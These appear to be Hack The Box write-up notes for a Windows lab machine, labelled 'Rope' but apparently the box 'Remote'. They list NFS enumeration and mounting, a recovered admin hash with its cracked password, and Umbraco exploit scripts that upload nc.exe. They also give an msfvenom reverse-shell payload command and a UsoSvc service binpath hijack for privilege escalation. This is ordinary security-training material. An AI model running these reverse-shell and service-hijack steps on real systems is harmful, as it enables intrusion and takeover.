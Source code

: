 # Hack The Box
  &nbsp; Machine : Rope <br>
  &nbsp; Machine IP : 10.10.10.180 <br>

# Scanning File
  &nbsp; Reference file : Gathering/RemoteScanning.txt <br>

# Install mount tool
  &nbsp; 1.Install nfs tools command on Kali linux<br>
    &nbsp; https://www.hiroom2.com/2017/08/01/kalilinux-2017-1-nfs-common-en/

  &nbsp; 2.RPC tool using it <br>
    &nbsp;https://resources.infosecinstitute.com/exploiting-nfs-share/#gref

# Information Gathering (Enumerating)
1. nmap -sC -sV -oN RemoteScanning.txt 10.10.10.180 <br>
  : appear interesting port on 2049 <br>

2. nmap -sV --script=nfs-showmount -oN remote.nfs 10.10.10.180 <br>
  : Searching for something NFS Directory <br>
   
3. mount "/site_backups" folder <br>
  : showmount -e 10.10.10.180 ( find to connect for directory )<br>
  : mount -t nfs 10.10.10.180:/site_backups /mnt ( mount nfs directory )<br>
 
4. find . -name "\*.sdf" (interesting file.. ?)<br>
  : Try to search for information file <br>
  : You can see the result in filename "Gathering/logging.txt" <br>
  : Hash Value is "b8be16afba8c314ad33d812f22a04991b90e2aaa : baconandcheese " <br>
  : Decrypt Site -> https://md5decrypt.net/en/Sha1/#answer <br>
  : Question. What is sdf file ? <br> 

5. cat \*.sdf |grep admin >> logging.txt <br>
  : logging in *.sdf to file save  <br>

# Gaining
powershell reverse shell script  
reverse shell script file name : mini-reverse.ps1

Find it PoC Link<br>
https://www.exploit-db.com/exploits/46153

  1.Gaining/umbraco_cve1.py <br>
  &nbsp; : nc.exe upload!  <br>

  2.Gaining/umpbraco_cve2.py  <br>
  &nbsp; : reverse connection script  <br>

  3.Ganing/umbraco_cve3.py <br>
  &nbsp; : it is revershell.exe made by msfvenom<br>
  &nbsp; : msfvenom -p windows/shell_reverse_tcp lhost=ip lport=port -f exe --platform windows > reverse.exe

# Privilage Escalte
1.wmic service where started=true get name, startname <br>
: find user account privilage service <br> 
2. UsoSvc<br>
: this is user account privilage service <br>
: sc stop usosvc (Stop The Service Command) <br>
: sc config usosvc binpath="c:\windows\temp\reverse.exe" <br>

# Reference Site
1. Walk Throught
https://phantominfosec.wordpress.com/2020/03/31/htb-remote-walkthrough/

2. Walk Throught
https://blog.csdn.net/qq_32261191/article/details/105082982 
